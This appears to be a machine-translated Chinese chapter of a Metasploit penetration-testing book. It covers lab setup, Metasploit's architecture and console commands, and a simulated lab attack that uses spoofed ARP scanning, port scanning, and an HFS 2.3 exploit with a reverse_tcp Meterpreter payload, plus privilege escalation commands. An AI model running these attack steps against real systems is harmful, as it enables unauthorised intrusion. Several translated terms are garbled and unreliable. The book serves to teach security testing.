# 开始使用 Metasploit

*“100%安全”将长期成为神话*

*-阿努帕姆·蒂瓦里*

渗透测试是对网络、web 应用程序、服务器或任何需要从安全角度进行彻底检查的设备进行蓄意攻击的艺术。渗透测试的想法是在模拟真实世界威胁的同时发现缺陷。执行渗透测试以找出系统中的漏洞和弱点，从而使易受攻击的系统能够对威胁和恶意活动保持免疫。

渗透测试的成功在很大程度上取决于使用正确的工具和技术。为了完成测试，渗透测试人员必须选择正确的工具和方法。在谈到渗透测试的最佳工具时，首先想到的是 Metasploit。它被认为是当今进行渗透测试最实用的工具之一。Metasploit 提供了各种各样的漏洞利用、一个优秀的漏洞利用开发环境、信息收集和 web 测试功能，等等。

本章将帮助您了解渗透测试和 Metasploit 的基础知识，这将帮助您熟悉本书的节奏。

在本章中，您将执行以下操作：

*   了解如何在渗透测试的不同阶段使用 Metasploit
*   遵循与 Metasploit 相关的基本命令和服务
*   了解 Metasploit 的体系结构并快速查看库
*   使用数据库进行渗透测试管理

在本书的整个过程中，我将假设您基本熟悉渗透测试，并且至少对 Linux 和 Windows 操作系统有一些了解。

在我们进入 Metasploit 之前，让我们首先设置我们的基本测试环境。本章需要两个操作系统：

*   卡利 Linux
*   Windows Server 2012 R2 带**Rejetto HTTP 文件服务器**（**HFS**2.3 服务器

因此，让我们快速建立我们的环境，从 Metasploit jiu-jitsu 开始。

# 在虚拟环境中设置 Kali Linux

在与 Metasploit 混合之前，我们需要有一个测试实验室。建立测试实验室的最佳想法是收集不同的机器并在其上安装不同的操作系统。然而，如果我们只有一台计算机，最好的办法是建立一个虚拟环境。

虚拟化在当今的渗透测试中扮演着重要角色。由于硬件成本高，虚拟化在渗透测试中发挥着经济高效的作用。在主机操作系统下模拟不同的操作系统不仅可以节省成本，还可以节省电力和空间。建立虚拟渗透测试实验室可防止对实际主机系统进行任何修改，并允许我们在隔离环境中执行操作。虚拟网络允许网络攻击在隔离网络上运行，从而防止对主机系统的网络硬件进行任何修改或使用。

此外，虚拟化的快照功能有助于在特定的时间间隔内保持虚拟机的状态。因此，快照被证明非常有用，因为我们可以在测试虚拟环境时比较或重新加载操作系统的以前状态，而无需重新安装整个软件，以防文件在攻击模拟后修改。

虚拟化要求主机系统拥有足够的硬件资源，如 RAM、处理能力、驱动器空间等，以便顺利运行。

有关快照的更多信息，请参阅[https://www.virtualbox.org/manual/ch01.html#snapshots](https://www.virtualbox.org/manual/ch01.html#snapshots) 。

因此，让我们看看如何使用 Kali 操作系统（渗透测试最受欢迎的操作系统，默认情况下包含 Metasploit 框架）创建虚拟环境。

要创建虚拟环境，我们需要虚拟仿真器软件。我们可以使用两种最流行的产品之一，VirtualBox 和 VMware Player。因此，让我们通过执行以下步骤开始安装：

1.  下载 VirtualBox（[http://www.virtualbox.org/wiki/Downloads](http://www.virtualbox.org/wiki/Downloads) ）并根据您机器的架构进行设置。
2.  运行安装程序并完成安装。
3.  现在，安装完成后，运行 VirtualBox 程序，如以下屏幕截图所示：



4.  现在，要安装新的操作系统，请选择“新建”。

5.  在名称字段中键入适当的名称，然后选择操作系统类型和版本，如下所示：

*   对于 Kali Linux，根据系统的体系结构选择类型为 Linux，版本为 Linux 2.6/3.x/4.x（64 位）
*   这可能与以下屏幕截图中显示的内容类似：



6.  选择要分配的系统内存量，对于 Kali Linux，通常为 1 GB。

7.  下一步是创建一个虚拟磁盘，作为虚拟操作系统的硬盘。将磁盘创建为动态分配的磁盘。选择此选项将消耗刚好足以容纳虚拟操作系统的空间，而不是消耗主机系统的整个物理硬盘。
8.  下一步是为磁盘分配大小；通常，20-30GB 的空间就足够了。
9.  现在，继续创建磁盘，查看摘要后，单击 create。
10.  现在，单击开始运行。第一次，会弹出一个窗口，显示启动盘的选择过程。在从硬盘浏览 Kali OS`.iso`文件的系统路径后，单击开始继续。此过程可能类似于以下屏幕截图所示：



您可以在实时模式下运行 Kali Linux，也可以选择图形安装来持续安装，如以下屏幕截图所示：



有关完整的 Kali Linux 持久性安装指南，请参阅[http://docs.kali.org/category/installation](http://docs.kali.org/category/installation) 。
有关在 Windows 上安装 Metasploit 的信息，请参阅[中的优秀指南 https://community.rapid7.com/servlet/JiveServlet/downloadBody/2099-102-11-6553/windows-installation-guide.pdf](https://community.rapid7.com/servlet/JiveServlet/downloadBody/2099-102-11-6553/windows-installation-guide.pdf) 。

# Metasploit 的基本原理

现在，我们已经完成了 Kali Linux 的安装，让我们来讨论一下全局：Metasploit。Metasploit 是一个安全项目，提供漏洞利用和大量侦察功能来帮助渗透测试人员。Metasploit 由 H.D.Moore 在 2003 年创建，自那时起，它的快速发展使它成为公认的最流行的渗透测试工具之一。Metasploit 完全是一个 Ruby 驱动的项目，提供了大量的漏洞利用、有效负载、编码技术和大量的漏洞利用后功能。

Metasploit 有多种版本，如下所示：

*   **Metasploit Pro**：本版为商业版，提供大量 web 应用扫描开发、自动开发等功能，非常适合专业渗透测试人员和 IT 安全团队使用。Pro 版用于高级渗透测试和企业安全程序。
*   **Metasploit Express**：用于基线渗透测试。此版本 Metasploit 的功能包括智能攻击、自动强制使用凭据等。此版本非常适合中小型公司的 IT 安全团队。
*   **Metasploit 社区**：这是一个免费版本，与快速版相比，功能有所减少。然而，对于学生和小企业来说，这个版本是一个不错的选择。
*   **Metasploit Framework**：这是一个命令行版本，包含所有手动任务，如手动开发、第三方导入等。此版本完全适合开发人员和安全研究人员。

您可以从以下链接下载 Metasploit:
[https://www.rapid7.com/products/metasploit/download/editions/](https://www.rapid7.com/products/metasploit/download/editions/)

在本书中，我们将使用 Metasploit 社区和框架版本。Metasploit 还提供各种类型的用户界面，如下所示：

*   **图形用户界面**（**GUI**）**界面**：点击按钮即可获得所有选项。此界面提供了一个用户友好的界面，有助于提供更清晰的漏洞管理。
*   **控制台界面**：这是最受欢迎的界面，也是最受欢迎的界面。此接口为 Metasploit 提供的所有选项提供了一种一体化方法。该接口也被认为是最稳定的接口之一。在本书中，我们将使用最多的控制台界面。
*   **命令行界面**：这是一个更强大的界面，支持对有效负载生成等活动发起攻击。然而，在使用命令行界面时记住每个命令是一项困难的工作。
*   **阿米蒂奇**：拉斐尔·穆奇（Raphael Mudge）的阿米蒂奇为 Metasploit 添加了一个简洁的黑客风格 GUI 界面。Armitage 提供了轻松的漏洞管理、内置 NMAP 扫描、漏洞利用建议，以及使用 Cortana 脚本语言自动化功能的能力。本书后半部分有一整章专门介绍阿米蒂奇和科尔塔纳。

有关 Metasploit 社区的更多信息，请参阅[https://community.rapid7.com/community/metasploit/blog](https://community.rapid7.com/community/metasploit/blog) 。

# Metasploit 框架的基础知识

在着手研究 Metasploit 框架之前，让我们先了解 Metasploit 中使用的基本术语。但是，以下模块不仅是术语，而且是 Metasploit 项目的核心和灵魂：

*   **漏洞**：这是一段代码，执行时会触发目标上的漏洞。
*   **有效负载**：这是成功利用漏洞后在目标上运行的一段代码。它定义了我们需要在目标系统上获得的访问类型和操作。
*   **辅助**：这些模块提供扫描、模糊、嗅探等附加功能。
*   **编码器**：用于混淆模块，以避免被防病毒或防火墙等保护机制检测到。
*   **MeterMeter**：这是一种基于 DLL 注入使用内存中 stager 的有效负载。它提供了在目标位置执行的各种功能，这使得它成为一种流行的选择。

# Metasploit 的体系结构

Metasploit 包含各种组件，如扩展库、模块、插件和工具。Metasploit 结构的图解视图如下所示：


让我们看看这些组件是什么以及它们是如何工作的。最好从充当 Metasploit 核心的库开始。

让我们了解各种库的使用，如下表所示：

| 库名 | 使用 |
| 雷克斯 | 处理几乎所有的核心函数，例如设置套接字、连接、格式化和所有其他原始函数。 |
| 无国界医生核心 | 提供底层 API 和描述框架的实际核心。 |
| 无国界医生基地 | 为模块提供友好的 API 支持。 |

Metasploit 中有许多类型的模块，它们的功能不同。我们有有效载荷模块，用于创建被利用系统的访问通道。我们有辅助模块来执行诸如信息收集、指纹识别、模糊应用程序以及登录各种服务等操作。让我们检查一下这些模块的基本功能，如下表所示：

| 模块类型 | 工作 |
| **有效载荷** | 有效负载用于执行操作，例如在攻击后连接到目标系统或从目标系统连接，或者执行特定任务，例如安装服务等。有效负载执行是成功利用系统后的下一步。广泛使用的流量计外壳是标准的 Metasploit 有效载荷。 |
| **辅助** | 辅助模块是一种特殊的模块，执行特定任务，如信息收集、数据库指纹识别、扫描网络以查找特定服务和枚举等。 |
| **编码器** | 编码器用于对有效载荷和攻击向量进行编码，以（或打算）逃避防病毒解决方案或防火墙的检测。 |
| **NOPs** | NOP 生成器用于对齐，从而使漏洞利用保持稳定。 |
| **利用** | 触发漏洞的实际代码。 |

# Metasploit 框架控制台和命令

收集有关 Metasploit 体系结构的知识，现在让我们运行 Metasploit 以获得有关命令和不同模块的实际知识。要启动 Metasploit，我们首先需要建立一个数据库连接，这样我们所做的一切都可以登录到数据库中。然而，数据库的使用也通过为所有模块使用缓存和索引来加快 Metasploit 的加载时间。因此，让我们在终端输入以下命令来启动`postgresql`服务：

```
root@beast:~# service postgresql start

```

现在，为了初始化 Metasploit 的数据库，让我们初始化`msfdb`，如下面的屏幕截图所示：



在前面的屏幕截图中可以清楚地看到，我们已经成功地为 Metasploit 创建了初始数据库模式。现在，让我们使用以下命令启动 Metasploit 数据库：

```
root@beast:~# msfdb start

```

我们现在准备启动 Metasploit。让我们在终端下发`msfconsole`启动 Metasploit，如下图所示：



欢迎使用 Metasploit 控制台。让我们运行`help`命令，看看我们还可以使用哪些其他命令：



前面屏幕截图中的命令是核心 Metasploit 命令，用于设置/获取变量、加载插件、路由流量、取消设置变量、打印版本、查找已发布命令的历史记录等等。这些命令相当通用。让我们看看基于模块的命令，如下所示：



Metasploit 中与特定模块相关的所有内容都位于“帮助”菜单的“模块控制”部分下。使用前面的命令，我们可以选择特定模块、从特定路径加载模块、获取有关模块的信息、显示与模块相关的核心和高级选项，甚至可以内联编辑模块。让我们学习 Metasploit 中的一些基本命令，并熟悉这些命令的语法和语义：

| **命令** | **用法** | **示例** |
| `use`【辅助/利用/有效载荷/编码器】 | 选择要开始使用的特定模块。 | 

```
msf>use
exploit/unix/ftp/vsftpd_234_backdoor
msf>use auxiliary/scanner/portscan/tcp 

```

 |
| `show`【漏洞利用/有效载荷/编码器/辅助/选项】 | 查看特定类型的可用模块列表。 | 

```
msf>show payloads
msf> show options        

```

 |
| `set`【选项/有效载荷】 | 为特定对象设置值。 | 

```
msf>set payload windows/meterpreter/reverse_tcp
msf>set LHOST 192.168.10.118
msf> set RHOST 192.168.10.112
msf> set LPORT 4444
msf> set RPORT 8080        

```

 |
| `setg`【选项/有效载荷】 | 将值全局分配给特定对象，以便在打开模块时值不会更改。 | 

```
msf>setg RHOST   192.168.10.112       

```

 |
| `run` | 设置所有必需选项后启动辅助模块。 | 

```
msf>run      

```

 |
| `exploit` | 发动攻击。 | 

```
msf>exploit      

```

 |
| `back` | 取消选择模块并向后移动。 | 

```
msf(ms08_067_netapi)>back
msf>        

```

 |
| `Info` | 列出与特定漏洞/模块/辅助相关的信息。 | 

```
msf>info exploit/windows/smb/ms08_067_netapi
msf(ms08_067_netapi)>info        

```

 |
| `Search` | 查找特定模块。 | 

```
msf>search hfs

```

 |
| `check` | 检查特定目标是否易受攻击。 | 

```
msf>check

```

 |
| `Sessions` | 以列出可用的会话。 | 

```
msf>sessions [session   number]

```

 |

| **仪表指令** | **用法** | **示例** |
| `sysinfo` | 列出受损主机的系统信息。 | 

```
meterpreter>sysinfo    

```

 |
| `ifconfig` | 列出受损主机上的网络接口。 | 

```
meterpreter>ifconfig  
meterpreter>ipconfig (Windows)

```

 |
| `Arp` | 连接到目标的主机的 IP 和 MAC 地址列表。 | 

```
meterpreter>arp

```

 |
| `background` | 将活动会话发送到后台。 | 

```
meterpreter>background

```

 |
| `shell` | 将 cmd shell 放到目标。 | 

```
meterpreter>shell     

```

 |
| `getuid` | 获取当前用户的详细信息。 | 

```
meterpreter>getuid        

```

 |
| `getsystem` | 升级权限并获得系统访问权限。 | 

```
meterpreter>getsystem       

```

 |
| `getpid` | 获取 MeterMeter 访问的进程 id。 | 

```
meterpreter>getpid        

```

 |
| `ps` | 列出目标上运行的所有进程。 | 

```
meterpreter>ps

```

 |

如果您是第一次使用 Metasploit，请参阅[http://www.offensive-security.com/metasploit-unleashed/Msfconsole_Commands](http://www.offensive-security.com/metasploit-unleashed/Msfconsole_Commands) 了解有关基本命令的更多信息。

# 使用 Metasploit 的好处

在进入示例渗透测试之前，我们必须知道为什么我们更喜欢 Metasploit 而不是手动开发技术。这是因为一个类似黑客的终端给人一种专业的感觉，还是有不同的原因？与传统手动技术相比，Metasploit 是一个很好的选择，因为某些因素如下：

*   Metasploit 框架是开源的
*   Metasploit 通过使用 CIDR 标识符支持大型测试网络
*   Metasploit 提供了快速生成的有效负载，可以动态更改或切换
*   在大多数情况下，Metasploit 使目标系统保持稳定
*   GUI 环境提供了一种快速且用户友好的方式来进行渗透测试

# Metasploit 渗透测试

介绍 Metasploit 框架的基本命令，现在让我们用 Metasploit 模拟真实世界的渗透测试。在下一节中，我们将仅通过 Metasploit 介绍渗透测试的所有阶段，但交互前阶段除外，该阶段是收集客户需求并通过会议、问卷等了解客户期望的一般阶段。

# 假设和测试设置

在接下来的练习中，我们假设我们的系统通过以太网或 Wi-Fi 连接到目标网络。目标操作系统是 Windows Server 2012 R2，IIS 8.0 在端口 80 上运行，HFS 2.3 服务器在端口 8080 上运行。我们将使用 Kali Linux 操作系统进行此练习。

# 第一阶段：足迹和扫描

封装外形和扫描是预交互后的第一个阶段，根据测试方法的类型（黑盒、白盒或灰盒），封装外形阶段将有显著差异。在黑盒测试场景中，我们将针对所有目标，因为没有给出目标的先验知识，而我们将以白盒方法执行特定于应用程序和体系结构的测试。灰箱测试将结合这两种方法的优点。我们将采用黑盒方法。那么，让我们启动 Metasploit 并运行基本扫描。但是，让我们向 Metasploit 添加一个新的工作区。添加一个新的工作区将使扫描数据与数据库中的其他扫描分开，并将有助于以更容易和更易于管理的方式查找结果。要添加新工作区，只需输入`workspace -a`【新工作区名称】，要将上下文切换到新工作区，只需输入`workspace`，后跟工作区名称，如下图所示：



在前面的屏幕截图中，我们可以看到我们添加了一个新的工作区`NetworkVAPT`并切换到它。现在让我们快速扫描网络，以检查所有活动主机。由于我们与目标公司在同一网络上，我们可以使用`auxiliary/scanner/discovery/arp_sweep`中的模块执行 ARP 扫描，如下图所示：



我们使用`use`命令选择要启动的模块。`show options`命令将向我们显示模块正常工作所需的所有必要选项。我们使用`set`关键字设置所有选项。在上图中，我们通过将`SMAC`和`SHOST`设置为除原始 IP 地址以外的任何其他地址来欺骗我们的 MAC 和 IP 地址。我们使用了`192.168.10.1`，它看起来类似于路由器的基本 IP 地址。因此，通过 ARP 扫描生成的所有数据包看起来都像是由路由器生成的。让我们运行该模块，并通过分析 Wireshark 中的流量来检查我们的语句的有效性，如以下屏幕截图所示：


在前面的屏幕截图中，我们可以清楚地看到，我们的数据包被用于模块的 MAC 和 IP 地址欺骗：

```
msf auxiliary(arp_sweep) > run
192.168.10.111 appears to be up.
Scanned 256 of 256 hosts (100% complete)
Auxiliary module execution completed
msf auxiliary(arp_sweep) >

```

从获得的结果中，我们有一个 IP 地址似乎是活动的，即，`192.168.10.111`让我们在`192.168.10.111`上执行 TCP 扫描，并检查哪些端口处于打开状态。我们可以使用`auxiliary/scanner/portscan/tcp`中的 portscan 模块执行 TCP 扫描，如以下屏幕截图所示：



接下来，我们将`RHOSTS`设置为 IP 地址`192.168.10.111`。我们还可以通过使用大量线程和设置并发性来提高扫描速度，如以下屏幕截图所示：


建议对扫描期间发现的所有打开端口执行横幅抓取。但是，对于本例，我们将重点关注基于 HTTP 的端口。让我们使用`auxiliary/scanner/http/http_version`模块查找`80`上运行的`8080`上的 web 服务器类型，如下图所示：



我们使用`use`命令加载`http_version`扫描仪模块，并将`RHOSTS`设置为`192.168.10.111`。首先，我们通过将`RPORT`设置为`80`来扫描端口`80`，结果为 IIS/8.5，然后我们运行端口`8080`模块，该模块描述该端口正在运行 HFS 2.3 web 服务器。

# 第二阶段：接近目标

完成扫描阶段后，我们知道我们只有一个 IP 地址，即，

`192.168.10.111`，运行 HFS 2.3 文件服务器和 IIS 8.5 web 服务。

您必须标识在所有打开端口上运行的所有服务。我们只关注基于 HTTP 的服务，只是为了举个例子。

IIS 8.5 服务器不存在任何可能导致整个系统受损的严重漏洞。因此，让我们尝试查找 HFS 服务器的漏洞。Metasploit 提供了一个`search`命令来在模块内搜索。让我们找到一个匹配的模块：


我们可以看到，发出`search HFS`命令后，Metasploit 发现了两个匹配的模块。我们可以跳过第一个，因为它与 HFS 服务器不对应。让我们使用第二个，如前面的屏幕截图所示。接下来，我们只需要为利用模块和有效负载设置以下几个选项：


让我们将`RHOST`的值设置为`192.168.10.111`、`RPORT`的值设置为`8080`、`payload`的值设置为`windows/meterpreter/reverse_tcp`、`SRVHOST`的值设置为系统的 IP 地址、`LHOST`的值设置为系统的 IP 地址。设置这些值后，我们只需发出`exploit`命令即可将漏洞发送到目标，如下图所示：

